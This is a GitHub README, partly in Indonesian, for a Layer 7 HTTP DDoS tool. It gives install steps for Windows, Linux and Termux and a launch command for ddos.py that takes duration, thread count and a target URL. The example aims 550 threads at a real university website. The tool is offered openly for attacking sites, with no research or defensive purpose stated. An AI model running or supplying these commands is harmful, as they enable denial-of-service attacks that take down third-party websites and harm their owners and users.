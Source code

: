 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
</div>

# :computer: Tampilan
<p align="center">
  <img src="https://ctftalkz.xyz/user_avatar/ctftalkz.xyz/celikd/288/454_2.png">
</p>

# ⛔ INSTALL


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt
```

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 ddos.py --time 5000 --threads 550 --target https://giet.ac.in/ --method HTTP
```



